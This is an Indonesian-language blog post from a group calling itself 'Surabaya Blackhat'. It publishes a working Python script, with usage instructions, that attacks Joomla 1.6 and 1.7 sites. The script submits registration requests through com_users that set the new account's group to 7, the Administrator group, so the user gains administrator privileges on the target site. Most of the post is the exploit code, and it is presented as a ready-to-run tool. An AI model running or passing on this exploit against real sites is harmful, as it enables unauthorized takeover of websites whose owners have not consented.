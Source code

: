 ```yaml
---
layout: post
title: "Joomla Com_User Auto Exploit with Python"
date: 2014-08-30 05:55:39 +0700
comments: true
categories: [exploit, python]
description: Joomla Com_User Auto Exploit with Python
keywords: Joomla Com_User Auto Exploit with Python
---
```


## Exploit Joomla version 1.6 & 1.7

### Require Install
* [Python](https://www.python.org/downloads/)
* [Python Requests Package](http://docs.python-requests.org/en/latest/user/install/#install)
<!-- more -->

### Who to?
* Kalian harus install dulu python
* Kalau sudah install pythonnya lanjut ke install Python Requests, download kemudian ektrak filenya dan jalankan seperti ini (linux):
``` sh
sudo python setup.py install
```

* Kemudian simpan script python dibawah ke direktori dimana kalian ingin menyimpannya.
* Buka terminal (linux) Bash Scripting Python aka CMD (Windows)
* Masuk ke direktori (cd) dimana script tadi anda simpan.
* Jalankan sebagai contoh:
``` sh
python sbh.py http://target.com/ usermu passwordmu emailmu
```

#### By xSecurity
#### Modif Sign by SunDi3yansyah | Surabaya Blackhat

{% codeblock sbh.py %}
#!/usr/bin/python
# Joomla Com_User Auto Exploit
# By xSecurity
# Modif Sign by SunDi3yansyah | Surabaya Blackhat

import requests as sec4ever, re, urllib, sys, os
from threading import Thread 
from time import sleep
def cls():
	os.system(['clear','cls'][os.name =='nt'])

cls()
print '''
   ____                  _                         ____  _            _    _           _   
  / ___| _   _ _ __ __ _| |__   __ _ _   _  __ _  | __ )| | __ _  ___| | _| |__   __ _| |_ 
  \___ \| | | | '__/ _` | '_ \ / _` | | | |/ _` | |  _ \| |/ _` |/ __| |/ / '_ \ / _` | __|
   ___) | |_| | | | (_| | |_) | (_| | |_| | (_| | | |_) | | (_| | (__|   <| | | | (_| | |_ 
  |____/ \__,_|_|  \__,_|_.__/ \__,_|\__, |\__,_| |____/|_|\__,_|\___|_|\_\_| |_|\__,_|\__|
                                     |___/                                                 
                                              _      _               
                        |  _  _.._._  _|_ _  |_) _  |_) __|__|_ _ ._ 
                        |_(/_(_|| | |  |_(_) |_)(/_ |_)(/_|_ |_(/_| 
        ---------------------------------------------------------------------
Joomla Version [1.6|1.7] [Com_User] Auto Exploit
Require Need Install Requests Python Package (Cari di google)
--------------------------------------------------------------
Surabaya Blackhat | Surabaya Hackerlink | Yogyakarta Blackhat
--------------------------------------------------------------
Please wait...'''

pwd2 = 'fio3jfiej9cewc9c9w0eufew9u'
def one(target,pwd1,pwd2,email):
	# Wrong Password
	x1 = xsec.get(target+'/index.php?option=com_users&view=registration')
	token = re.findall('type="hidden" name="(.*?)" value="1"', x1.text)
	post = {}
	post["jform[name]"] = 'SunDi3yansyah'
	post["jform[username]"] = user
	post["jform[password1]"] = pwd1
	post["jform[password2]"] = pwd2
	post["jform[email1]"] = email
	post["jform[email2]"] = email
	post["jform[groups][]"] = "7"
	post["option"] = "com_users"
	post["task"] = "registration.register"
	post[token[0]] = "1"
	p1 = xsec.post(target+'/index.php?option=com_users&view=registration', data=urllib.urlencode(post))
	x2 = xsec.get(target+'/index.php/component/users/?view=registration&layout=complete')

def exploit(target,pwd1,pwd2,email):
	# Wrong Password
	x3 = xsec.get(target+'/index.php?option=com_users&view=registration')
	token = re.findall('type="hidden" name="(.*?)" value="1"', x3.text)
	post = {}
	post["jform[name]"] = 'SunDi3yansyah'
	post["jform[username]"] = user
	post["jform[password1]"] = pwd1
	post["jform[password2]"] = pwd1
	post["jform[email1]"] = email
	post["jform[email2]"] = email
	post["jform[groups][]"] = "7"
	post["option"] = "com_users"
	post["task"] = "registration.register"
	post[token[0]] = "1"
	p2 = xsec.post(target+'/index.php?option=com_users&view=registration', data=urllib.urlencode(post))
	x4 = xsec.get(target+'/index.php/component/users/?view=registration&layout=complete')

xsec = sec4ever.session()
if len(sys.argv) == 5:
	target = sys.argv[1]
	user = sys.argv[2]
	pwd1 = sys.argv[3]
	email = sys.argv[4]
	one(target,pwd1,pwd2,email)
	ex = exploit(target,pwd1,pwd2,email)
	print ' * Go To Your Email & Active Then Login \n * Username: '+user+' & Password: '+pwd1
else:
	print "Usage: python sbh.py http://target.com/ usermu passwordmu emailmu"
{% endcodeblock %}

### Screenshot

{% img http://i40.photobucket.com/albums/e228/sundi3yansyah/WAzeF5n_zpsa0d8f316.png Joomla Com_User Auto Exploit with Python %}

{% img http://i40.photobucket.com/albums/e228/sundi3yansyah/L9F0YoC_zps2111c6a9.png Joomla Com_User Auto Exploit with Python %}

### Video

<iframe width="675" height="415" src="//www.youtube.com/embed/SHbTNPpx4_0" frameborder="0" allowfullscreen></iframe>